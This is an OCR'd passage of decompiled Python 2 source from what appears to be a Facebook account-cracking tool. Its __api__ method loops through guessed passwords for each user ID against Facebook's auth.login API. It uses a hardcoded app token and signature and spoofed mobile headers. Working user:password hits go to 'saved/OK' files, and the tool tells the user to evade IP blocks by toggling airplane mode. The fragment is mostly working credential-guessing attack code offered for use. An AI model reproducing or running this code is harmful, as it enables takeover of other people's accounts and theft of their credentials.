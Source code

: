                             os.remove(self.apk)
                            seved_ok_cp(ok, cp)
                        else:
                            print '%s[%s\x1b[1;91m\xc3\x97%s] correct input' % (N, M, N)
                            self.__yan__()

                    print '\x1b[1;97m-------------------------------------------------'
                    print '[%s\x1b[1;92m1%s] NEW API ( VERY FAST )' % (O, N)
                    print '\x1b[1;97m-------------------------------------------------'
                    __yan__(pwek.split(','))
                    break

        elif ___mking__pass___ in ('1', '01'):
            print '\x1b[1;97m-------------------------------------------------'
            print '[%s\x1b[1;92m1%s] NEW API ( VERY FAST )' % (O, N)
            print '\x1b[1;97m-------------------------------------------------'
            self.__pler__()
        else:
            print '%s[%s\x1b[1;91m\xc3\x97%s] y/t goblok!' % (N, M, N)
            time.sleep(2)
            menu()
        return

    def __api__(self, user, __yan__):
        global loop
        (
         sys.stdout.write('\r%s%s ( + ) TEST: %s OF %s  \x1b[1;92mOK\x1b[1;97m:\x1b[1;92m %s + \x1b[1;93mCP\x1b[1;97m:\x1b[1;93m %s \x1b[1;97m' % (O, N, loop, len(self.id), len(ok), len(cp))),)
        sys.stdout.flush()
        for pw in __yan__:
            pw = pw.lower()
            try:
                os.mkdir('saved')
            except:
                pass

            try:
                _sultani = open('mking.txt', 'r').read()
            except (KeyError, IOError):
                _sultani = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'

            headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _sultani, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
            api = 'https://b-api.facebook.com/method/auth.login'
            params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': user, 'locale': 'en_US', 'password': pw, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
            response = requests.get(api, params=params, headers=headers_)
            if response.status_code != 200:
                (sys.stdout.write('\r%s[%s\x1b[1;91m!%s] IP blocked turn on airplane mode 5 seconds' % (N, M, N)),)
                sys.stdout.flush()
                loop += 1
                self.__api__()
            if 'access_token' in response.text and 'EAAA' in response.text:
                print '\r%s[ OK ] %s : %s   %s' % (H, user, pw, N)
                wrt = ' [\xe2\x9c\x93] %s|%s' % (user, pw)
                ok.append(wrt)
                open('saved/OK-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                break
                continue
            elif 'www.facebook.com' in response.json()['error_msg']:
                try: